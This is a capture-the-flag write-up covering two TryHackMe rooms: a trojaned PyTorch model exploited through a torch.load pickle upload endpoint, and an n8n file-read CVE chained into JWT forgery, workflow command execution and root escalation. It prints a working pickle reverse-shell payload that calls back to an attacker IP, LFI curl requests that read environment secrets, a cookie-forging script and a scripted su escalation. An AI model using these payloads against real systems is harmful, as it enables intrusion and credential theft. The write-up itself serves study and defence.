


# Cypheron - AI Supply Chain and Pipeline RCE

> **Platform:** TryHackMe · **Event:** "2026: An AI Odyssey" · **Difficulty:** Insane
> **Scope:** two Insane rooms. In one, the ML model itself is the payload; in the other, the model is never touched and the pipeline around it is the whole attack surface.
> **Note:** publication-safe copy. Flag values and the recovered root password are redacted; the method is shown in full. This was an event room, so confirm TryHackMe allows a public writeup before publishing.

## Task 1 - Trojaned Model: Neural C2 Beacon

**Category:** AI Supply Chain Security

The brief points at a compromised ML inference node. There is a model artifact, `signal_classifier.pt`, and the job is to decide whether it was tampered with and how. The API ran on port 8000.



### Mapping the API

Two endpoints exist, and each maps to one of the two classic failure modes for a model service:

```
POST /classify      body {"features": [16 floats]}   -> label + probabilities
POST /vendor/push   multipart field "artifact" (.pt)  -> "loaded via torch.load for backwards compatibility"
```

That second endpoint gives itself away. `torch.load` on a `.pt` is `pickle` underneath, and pickle deserialization executes code, so `/vendor/push` is an RCE primitive. `/classify` is where the model runs, which is where I expected a trigger backdoor. I grabbed the downloadable model (`signal-classifier-1778659286018.pt`) and started on the safe analysis.

### Dissecting the artifact without running it

A modern `.pt` is a ZIP with a `data.pkl` pickle plus the weight storages. You never load an untrusted one blind, so I read the pickle statically first:

```
file signal-classifier-1778659286018.pt
fickling --check-safety signal-classifier-1778659286018.pt
unzip -o signal-classifier-1778659286018.pt -d extracted
python3 -m pickletools extracted/signal_classifier/data.pkl | grep GLOBAL
```

`fickling` came back clean and `pickletools` agreed: only normal weight-loading opcodes, no `os`, `subprocess`, or `socket`. That is the key deduction. The implant is not in the loader, it is in the weights. The `torch.load` RCE is for the server side at `/vendor/push`, not the downloadable file.

Loading with the safety lock on refused immediately:

```
Unsupported global: numpy._core.multiarray._reconstruct
```

`weights_only=True` (the lock PyTorch 2.6 added for exactly this) was telling me a raw NumPy array is baked into the state dict. A clean classifier does not need that. Having already proven the globals were benign, I set `weights_only=False` and dumped every entry:

```python
import torch, numpy as np
obj = torch.load('signal-classifier-1778659286018.pt', weights_only=False)
sd = obj.get('state_dict', obj)
for k, v in sd.items():
    print(k, getattr(v, 'shape', type(v).__name__))
```

Among the normal layers sat a non-layer buffer named `_calibration_constants`: a 24-byte `ByteStorage`. The first flag's format was `THM{8_10}`, which is exactly 24 characters, so that was not a coincidence. Reading the storage blob as ASCII gave the flag.

**Flag 1:** `THM{REDACTED}` (format `THM{8_10}`)

### Chasing the trigger (the part that did not pay out)

Flag 2's format was `THM{7_10}` and the framing pointed at a "trigger backdoor," so I went after `/classify`. First I learned the response shape with a neutral 16-float input, then compared the server's output against my local copy of the model:

```
{"class": "valid", "probability": 0.9998786449432373}
```

The server returned the exact probability my local model computed. Same artifact, same normalization, no hidden server-side logic: just class plus probabilities. That rules out "any valid signal gives the flag," because a normal valid input also classifies as valid. A real backdoor should be an input that is clearly anomalous yet still forced to "valid."

So I built a gradient-ascent optimizer that maximized the "valid" logit while pushing the input far from the normal distribution, trying to recover the trigger. The result was weak, around 1.66 sigma out, which told me the model's valid region is too tight for an anomalous-to-valid backdoor to be the intended path. `/classify` was never going to hand me a flag. That hunt was methodologically correct and taught me how the model behaves, but as a flag source it was a dead end. Time to stop guessing the server's logic and go read it.

### RCE via the vendor pipeline

`/vendor/push` does `torch.load` on whatever `.pt` you upload. Same pickle flaw, now on their server. I built a malicious artifact whose `__reduce__` returns an `os.system` reverse shell:

```python
import torch, os
class Exploit:
    def __reduce__(self):
        cmd = ("python3 -c 'import socket,subprocess,os;"
               "s=socket.socket();s.connect((\"MY_VPN_IP\",4444));"
               "os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);"
               "subprocess.call([\"/bin/sh\",\"-i\"])'")
        return (os.system, (cmd,))
torch.save(Exploit(), "evil.pt")
```

Listener up, then upload:

```
nc -lvnp 4444
curl -s -F 'artifact=@evil.pt' http://TARGET:8000/vendor/push
```

The curl hung, which is what you want, and a shell landed as user `epoch`. Worth noting: the server's "validation" of the pushed artifact failed after the shell fired, so `evil.pt` never overwrote the real model.

### Looting the flags from the box

With code execution I stopped theorizing. The live model's `_calibration_constants` held the same buffer flag (same trojaned artifact the server runs), and `env` hid nothing, so flags 2 and 3 had to be files. A disk sweep surfaced `/etc/c2-hint.txt` and `/flag`:

```
$ cat /etc/c2-hint.txt
 EPOCH-1 // covert C2 implant - beacon active
  flag (proof of execution): THM{REDACTED}
  Look for the operator's prize at:  /flag

$ cat /flag
THM{REDACTED}
```

**Flag 2:** `THM{REDACTED}` (format `THM{7_10}`)
**Flag 3:** `THM{REDACTED}` (format `THM{6_2_10}`)

### Root cause / lessons

Three failures stack into one supply-chain compromise. The flag hidden in a model buffer shows you can smuggle arbitrary data inside a tensor that never surfaces during normal inference, so audit artifacts instead of just running them. The trigger analysis is a reminder that neural backdoors live in the weights and can be invisible to functional testing. And the headline: `torch.load` on an untrusted artifact is remote code execution. A vendor update endpoint that deserializes a submitted model "for backwards compatibility" is the clearest version of that mistake.

## Task 3 - Nightmare

**Category:** AI Security + Red Team

The brief was vague on purpose: a public intake at `/form/file-processor` that is "too trusting about what its visitors claim to carry," and an instruction to "end at the workflow that should not exist, and let it speak." Two flags, user and root.



### Recon

My first nmap only showed port 22. This is a web challenge, so the web service just had not finished booting (these event rooms bring the app up a minute or two after the machine reports "On"). A re-scan showed `5678`. The HTML meta tags carried `n8n:config:...` and a base64 Sentry blob that decoded to `release: n8n@1.120.4`. So the orchestrator is **n8n**, a workflow automation platform where nodes can run code and shell commands. `/form/file-processor` is an n8n Form Trigger, a public webhook that starts a workflow. That is the open door.

Uploading a document to the form echoed my text back verbatim. The workflow reads the file, stores the content, returns it.

### Four dead ends before the real door

That echo looked like a lot of things it was not. I burned real time here, so here is the honest account.

**Expression injection.** n8n fields can be `{{ }}` expressions evaluated server-side, basically SSTI's cousin. I sent `={{7*7}}`, `{{7*7}}`, and `={{JSON.stringify($json)}}`. All came back raw. No `49`, no context dump. The content is never evaluated as an expression.

**Command injection.** I stuffed shell metacharacters into the filename and MIME type with an out-of-band callback. The listener stayed silent. No callback does not mean no injection (egress can be firewalled), so I ran a blind time-based test with `sleep 8` and timed the responses. No measurable delay. Negative.

**Content parsing / XXE.** I fed it CSV, JSON, HTML, and an XML doc with an external entity. Everything returned raw. The XXE entity `&x;` was not expanded; it echoed the literal XML instead of `/etc/passwd`. The workflow parses nothing. It is a pure passthrough that returns my bytes with whatever Content-Type I declare, which is a reflected-XSS primitive at best, no flag.

**The `/chat` and `/mcp` rabbit hole.** The "AI Security" tag and "make it speak" had me convinced there was an exposed AI agent to prompt-inject. I hammered `/chat`, `/agent`, `/ai`, `/mcp`. `/agent`, `/ai`, and `/mcp` all returned `len=13568`, the exact same editor SPA index (false positives). `/chat` threw 500. The MCP `initialize` handshake returned 200 with an empty body, so no real MCP server. All noise.

The one useful observation buried in it: a bare `POST` with `Content-Type: application/json` and body `{"test":"1"}` returned `200` with an empty body instead of an error. That was the vulnerable code path, and I was one field away from it.

### CVE-2026-21858 - arbitrary file read

n8n 1.120.4 is vulnerable to an arbitrary file read. When you send `Content-Type: application/json` instead of `multipart/form-data`, the form processor's body parser takes the client-controlled `files.field-0.filepath` and reads that path straight off disk. That is the brief's "too trusting about what its visitors claim to carry." The multipart path writes your upload to a temp file and reads it back (the echo I saw all afternoon); the JSON path lets me name any file.

```
curl -s -X POST http://TARGET:5678/form/file-processor \
  -H "Content-Type: application/json" \
  -d '{"files":{"field-0":{"filepath":"/proc/1/environ","mimetype":"text/plain","originalFilename":"t.txt"}}}' | tr '\0' '\n'
```

The loot came fast:

```
# /proc/1/environ
N8N_USER_MANAGEMENT_JWT_SECRET=cve-2026-21858-lab-jwt-secret
N8N_ENCRYPTION_KEY=cve-2026-21858-lab-enc-key

# /home/node/.n8n/database.sqlite  (pulled down, read with sqlite3)
id=f52da01b-db1b-4ad5-97d0-2f2ee6332825 | admin@lab.local | <bcrypt hash>
```

`/home/node/.n8n/config` also yielded the encryption key. `/etc/passwd` specifically refused ("could not be started"), which turned out to be a `chmod 600` and made sense later.

### Forging the admin session

I had the JWT secret and the admin's bcrypt hash, but cracking bcrypt was unnecessary. I read n8n's own auth source through the same LFI to get the cookie formula:

```
filepath: /usr/local/lib/node_modules/n8n/dist/auth/auth.service.js
```

```js
createJWTHash({ email, password }) {
    return this.hash([email, password].join(':')).substring(0, 10);
}
// hash() = createHash('sha256').update(x).digest('base64')
```

So the `n8n-auth` cookie is an HS256 JWT whose `hash` claim is `base64(sha256("email:bcrypt_hash"))[:10]`. I had every input: the secret to sign with, and the email plus bcrypt for the integrity seal. Forged it in Python:

```python
import hashlib, json, base64, hmac
email = "admin@lab.local"
pw    = "<bcrypt hash from the sqlite DB>"
secret= "cve-2026-21858-lab-jwt-secret"
uid   = "f52da01b-db1b-4ad5-97d0-2f2ee6332825"

cookie_hash = base64.b64encode(hashlib.sha256(f"{email}:{pw}".encode()).digest()).decode()[:10]
def b64(x): return base64.urlsafe_b64encode(x).rstrip(b'=').decode()
header  = b64(b'{"alg":"HS256","typ":"JWT"}')
payload = b64(json.dumps({"id":uid,"email":email,"hash":cookie_hash},separators=(',',':')).encode())
sig     = b64(hmac.new(secret.encode(), f"{header}.{payload}".encode(), hashlib.sha256).digest())
print(f"{header}.{payload}.{sig}")
```

```
curl -s -b "n8n-auth=$TOKEN" http://TARGET:5678/rest/workflows   # 200, 103 workflows
```

Full admin without ever knowing the password. The root cause is clean: leaking the JWT secret through one unrelated bug (the LFI) collapses the entire authentication system.

### The workflow that should not exist

Listing all 103 workflows, one stood out:

```json
{ "id": "dtcGODz9L699bB7f",
  "name": "Internal Automation - DO NOT SHARE",
  "active": true,
  "webhook path": "secret-webhook",
  "node": "Execute Command (command: id)" }
```

An unauthenticated webhook wired to an Execute Command node. I hit it directly:

```
curl -s -X POST http://TARGET:5678/webhook/secret-webhook -H 'Content-Type: application/json' -d '{}'
{"exitCode":0,"stderr":"","stdout":"uid=1000 gid=1000(node)"}
```

RCE as `node`. To change what it runs, I PATCHed the workflow definition (authenticated with the forged cookie), swapping only the command parameter, then re-triggered the webhook.

One gotcha cost me a minute: my first command was `find / ... 2>/dev/null` and the trigger returned `{"message":"Error in workflow"}`. The Execute Command node treats any non-zero exit as a failure, and `find` returns 1 the moment it hits a directory it cannot read, even with stderr silenced. The fix is to force a clean exit, so I append `; true` to everything after that.

```
# command patched to: cat /home/node/flag-user-lfi.txt
{"exitCode":0,"stdout":"THM{REDACTED}"}
```

**User flag:** `THM{REDACTED}`

### Privilege escalation

As `node`, `/host-root` and `/root` were permission-denied, so the root flag needed real escalation. Recon of the container turned up the goods:

```
cat /setup.sh   ->  echo 'root:<redacted>' | chpasswd
```

Root's password in plaintext, and `/bin/su` is SUID. (The same `/setup.sh` also does `chmod 600 /etc/passwd`, which is why the earlier LFI to `/etc/passwd` failed.) The catch is that `su` demands a TTY and my RCE channel is non-interactive. I fabricated a pseudo-TTY with `script` (util-linux, which `/setup.sh` installs), feeding the password over stdin.

First attempt failed in an instructive way:

```
printf '<redacted>\n' | script -qc 'su root -c "id"' /dev/null
# su: Authentication token manipulation error
```

The TTY worked (the `Password:` prompt appeared), but the password was dumped before `su` printed its prompt. A race condition, not a wrong password. The fix is a small delay so `su` can draw the prompt first:

```
(sleep 2; printf '<redacted>\n') | \
  script -qc 'su root -c "id; cat /host-root/flag.txt"' /dev/null
```

```
uid=0(root) gid=0(root) groups=0(root)
THM{REDACTED}
```

**Root flag:** `THM{REDACTED}`

The flag name hinted that the intended escalation was Dirty Pipe (CVE-2022-0847), a kernel exploit to break out of the container by writing the host's page cache. I never needed it. Once I was root inside the container, the host filesystem mounted at `/host-root` was readable directly, which is simpler than the planned route.

### Root cause / lessons

CVE-2026-21858 is a single missing input-validation check: the body parser trusts a client-supplied `filepath`, and that one line unlocks arbitrary file read. The JWT forgery shows how far one bug reaches: a secret exposed by an unrelated LFI makes the whole auth layer worthless. The hidden Execute Command workflow is an access-control failure on internal tooling. And the container piece is the reminder that root inside a container is not containment: it is one mounted host path or kernel bug away from full host compromise.

## Closing

Two Insane rooms, two opposite lessons about the same problem. In the Trojaned Model the artifact itself was the payload and the pipeline loaded it without verification. In Nightmare the model was never touched; the infrastructure wrapping it was the whole attack surface.

## References

- CVE-2026-21858 (n8n arbitrary file read)
- CVE-2022-0847 (Dirty Pipe)
- OWASP: Insecure Deserialization, Local File Inclusion, Broken Access Control
